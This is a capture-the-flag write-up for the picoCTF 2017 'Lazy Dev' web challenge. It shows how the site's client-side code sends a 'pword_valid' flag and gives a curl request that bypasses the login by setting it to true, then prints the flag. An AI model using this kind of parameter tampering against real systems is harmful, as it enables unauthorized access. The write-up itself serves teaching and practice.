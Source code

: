 # Lazy Dev

This was the Master Challenge of Level 1. In order to move to Level 2,
we had to crack this one.

Problem:

I really need to login to [this](http://shell2017.picoctf.com:35895/) website, but the developer hasn't implemented login yet. Can you help?

## Solution

On opening the chrome devtools on the website, within the `Sources` tab,
we can see a JS file called `client.js`.

```javascript
//Validate the password. TBD!
function validate(pword){
  //TODO: Implement me
  return false;
}

//Make an ajax request to the server
function make_ajax_req(input){
  var text_response;
  var http_req = new XMLHttpRequest();
  var params = "pword_valid=" + input.toString();
  http_req.open("POST", "login", true);
  http_req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  http_req.onreadystatechange = function() {//Call a function when the state changes.
  	if(http_req.readyState == 4 && http_req.status == 200) {
      document.getElementById("res").innerHTML = http_req.responseText;
    }
  }
  http_req.send(params);
}

//Called when the user submits the password
function process_password(){
  var pword = document.getElementById("password").value;
  var res = validate(pword);
  var server_res = make_ajax_req(res);
}
```

Notice this line: `var params = "pword_valid=" + input.toString();`

We probably need to do a POST on the URL to which `make_ajax_req(...)`
is performing an AJAX POST request.

On clicking the Submit button, we see that an XHR request is being made.

I used Chrome devtools to get the headers, payload, etc. being passed to
`/login`. This was the entire cURL data:

```bash
curl 'http://shell2017.picoctf.com:35895/login' -H 'Pragma: no-cache' -H 'Origin: http://shell2017.picoctf.com:35895' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.8' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36' -H 'Content-type: application/x-www-form-urlencoded' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'Referer: http://shell2017.picoctf.com:35895/' -H 'Cookie: _ga=GA1.2.139744509.1490819530' -H 'Connection: keep-alive' --data 'pword_valid=false' --compressed
```

Changing the `pword_valid=false` data to `pword_valid=true`, we get our flag:

```bash
client_side_is_the_dark_sidebde1f567656f8c9b654a1ec24e1ff889
```
